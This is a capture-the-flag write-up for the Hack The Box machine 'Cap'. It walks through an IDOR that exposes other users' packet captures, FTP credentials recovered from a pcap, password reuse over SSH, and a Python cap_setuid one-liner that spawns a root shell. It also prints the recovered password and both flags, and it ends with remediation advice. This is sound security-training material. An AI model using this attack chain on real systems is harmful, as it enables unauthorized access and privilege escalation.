






# HTB — Cap

- **Difficulty:** Easy
- **OS:** Linux (Ubuntu 20.04)
- **Release Date:** June 5, 2021
- **Author:** altiera (Kazbek Talgatuly)
- **Date Completed:** April 10, 2026

---

## Overview

Cap is an easy-rated Linux machine on Hack The Box that demonstrates three common real-world security issues: an Insecure Direct Object Reference (IDOR) vulnerability in a web-based security dashboard, credential reuse between FTP and SSH services, and a misconfigured Linux capability (`cap_setuid`) on the Python binary that leads to a straightforward privilege escalation to root.

The intended path is:

1. Discover an IDOR vulnerability in the web application and download another user's packet capture
2. Extract plaintext FTP credentials from the pcap file using Wireshark
3. Reuse the FTP credentials to log in via SSH as `nathan`
4. Exploit `cap_setuid` on `/usr/bin/python3.8` to escalate privileges to root

---

## Reconnaissance

### Nmap Scan

I started with a service/version scan against the target to identify open ports and running services.

```bash
sudo nmap -sV -sC 10.129.28.99
```

**Output:**

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-10 18:14 +0500
Nmap scan report for 10.129.28.99
Host is up (0.22s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Three services are exposed:

- **Port 21** — FTP (`vsftpd 3.0.3`)
- **Port 22** — SSH (`OpenSSH 8.2p1`)
- **Port 80** — HTTP (`Gunicorn`, hosting an application titled "Security Dashboard")

The page title "Security Dashboard" on port 80 was the most interesting starting point, so I began the enumeration there.

---

## Web Enumeration

### Security Dashboard

Visiting `http://10.129.28.99/` loaded a web application called **Security Dashboard** containing several sections: IP Config, Network Status, Network Interfaces, and a section labeled **Security Snapshot (5 Second PCAP + Analysis)**.


### Discovering the IDOR

The "Security Snapshot" feature captures a 5-second pcap of the current network traffic and allows the user to download and analyze it. After clicking on it, the URL changed to:

```
http://10.129.28.99/data/1
```

The use of a sequential numeric ID in the URL path immediately looked suspicious — this is a textbook indicator of a potential **Insecure Direct Object Reference (IDOR)** vulnerability. The application might not be checking whether the requested pcap actually belongs to the current session.

To test the theory, I changed the ID from `1` to `0`:

```
http://10.129.28.99/data/0
```



The server returned a different pcap file. This confirmed the IDOR: there is no access control between pcap captures, and any authenticated/unauthenticated user can enumerate captures belonging to other sessions simply by iterating the ID.

I downloaded the pcap from `/data/0` for offline analysis.

---

## Analyzing the PCAP

I opened the downloaded file in Wireshark and applied the `ftp` display filter to isolate FTP protocol traffic.

```
ftp
```

Since FTP is a plaintext protocol, authentication commands (`USER` and `PASS`) are transmitted in the clear and are trivially recoverable from a packet capture. Within a few packets I found the credentials:



```
Request: USER nathan
Request: PASS Buck3tH4TF0RM3!
Response: 230 Login successful.
```

At this point I had a valid username and password pair for `nathan` on the FTP service.

---

## Foothold

### Credential Reuse — SSH Login

Rather than connecting via FTP (which would only give me a limited file-transfer session), I tested the same credentials against SSH. Credential reuse across services is extremely common in real-world environments, and since port 22 was open, this was the natural first attempt.

```bash
ssh nathan@10.129.28.99
```

The password `Buck3tH4TF0RM3!` worked on SSH as well, giving me an interactive shell as user `nathan`.


### User Flag

```bash
nathan@cap:~$ cat user.txt
8f1fe863a480713d8733d35ba312fe74
```

---

## Privilege Escalation

### Enumerating Capabilities

With a shell as `nathan`, I began local enumeration. Given the name of the machine ("Cap"), Linux capabilities were the obvious first thing to check:

```bash
getcap -r / 2>/dev/null
```

**Output:**

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```



Most of these are expected default configurations on Ubuntu:

- `cap_net_raw` on `ping`, `traceroute6`, `mtr-packet` — required for creating raw ICMP sockets, replaces the old SUID-root configuration
- `cap_net_bind_service` and `cap_net_admin` on GStreamer's PTP helper — needed for Precision Time Protocol

The anomaly is on `/usr/bin/python3.8`:

```
cap_setuid,cap_net_bind_service+eip
```

`cap_net_bind_service` on Python would be reasonable on its own (it allows binding to privileged ports below 1024 without root for, e.g., a web server). However, **`cap_setuid`** is dangerous: it allows the process to call `setuid()` and change its UID to any value, including `0` (root). Combined with an interpreter like Python — which can invoke `setuid()` directly via `os.setuid()` — this is effectively a root shell on demand.

### Exploiting `cap_setuid`

I used Python to call `os.setuid(0)` and then spawn a shell, which inherits the new UID:

```bash
python3 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'
```

Verification:

```bash
# whoami
root
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```


### Root Flag

```bash
# cat /root/root.txt
f53edd9f4480c32dfbec1c7fc0cf33c9
```

---

## Lessons Learned

This box is small but ties together three issues that appear constantly in real engagements:

**1. Insecure Direct Object References (IDOR).** The Security Dashboard exposed pcap captures through a sequential integer ID with no authorization check. This is one of the most common web vulnerabilities and maps directly to OWASP Top 10 — _A01:2021 Broken Access Control_. The fix is to validate, for every request, that the currently authenticated session is actually authorized to access the requested resource — not just that the resource exists.

**2. Credential reuse across services.** The user `nathan` used the same password for FTP and SSH. This pattern is routine in real environments, which is why credential spraying and reuse checks are a standard part of any internal assessment. Any credentials found in one place should be tested against every other authenticated service on the target.

**3. Overly permissive Linux capabilities.** An administrator likely intended to grant Python the ability to bind low ports (`cap_net_bind_service`) for a web service, but added `cap_setuid` along with it — instantly giving every local user a path to root. Capabilities are meant to be _less_ dangerous than SUID root by being more granular, but that only holds if administrators grant the minimum necessary capability. `cap_setuid`, `cap_dac_read_search`, `cap_dac_override`, `cap_sys_admin`, `cap_sys_module`, and `cap_sys_ptrace` should all be treated as root-equivalent when granted to a scripting interpreter or general-purpose tool.

### Remediation Recommendations

- **Web application:** enforce per-session authorization checks on the `/data/<id>` endpoint. Each user should only be able to access captures they generated themselves. Consider using non-sequential, unguessable identifiers (UUIDs) as a defense-in-depth measure.
- **Credentials:** do not reuse passwords across FTP and SSH. Where possible, disable plaintext FTP entirely in favor of SFTP/FTPS to prevent credential exposure in transit.
- **Capabilities:** remove `cap_setuid` from `/usr/bin/python3.8`. If the goal was only to allow binding low ports, `cap_net_bind_service` alone is sufficient. Better still, run the privileged service under a dedicated systemd unit with `AmbientCapabilities=CAP_NET_BIND_SERVICE` rather than granting the capability to the interpreter binary itself.

---

## References

- [HackTricks — Linux Capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)
- [GTFOBins — Python Capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities)
- [OWASP — Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [man 7 capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html)